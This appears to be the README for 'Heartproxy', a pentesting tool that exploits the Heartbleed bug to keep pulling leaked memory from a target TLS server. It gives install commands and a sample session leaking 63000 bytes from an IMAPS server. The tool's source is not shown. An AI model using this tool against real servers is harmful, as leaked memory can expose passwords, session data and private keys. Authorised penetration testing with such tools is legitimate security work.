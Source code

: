 Heartproxy
==========

Heartbleed TCP to SSL proxy that constantly pulls leaked memory.

Use for pentesting to dump live memory chunks during an ongoing connection.

Based on work of Filippo Valsorda at https://github.com/FiloSottile/Heartbleed

Install
=======

go get github.com/mver/Heartproxy

go install github.com/mver/Heartproxy

Synopsis
========

Leaking 63000 Bytes from a vulnerable IMAPS server: 
 
[foo@bar/term1]$ Heartproxy 8080 mail.vulnerable.com:993 64000

2014/04/10 14:25:18 Using leaksize 63000

Listening on 8080

2014/04/10 14:25:25 New connection from: localhost

2014/04/10 14:25:25 Connected to target...

2014/04/10 14:25:25 starting up heartbeat collector

2014/04/10 14:25:25 starting up clientToTarget collector

2014/04/10 14:25:25 starting up targetToClient collector

...



[foo@bar/term2]$ telnet localhost 8080

Trying 127.0.0.1...

Connected to localhost.

Escape character is '^]'.

AUTH ...

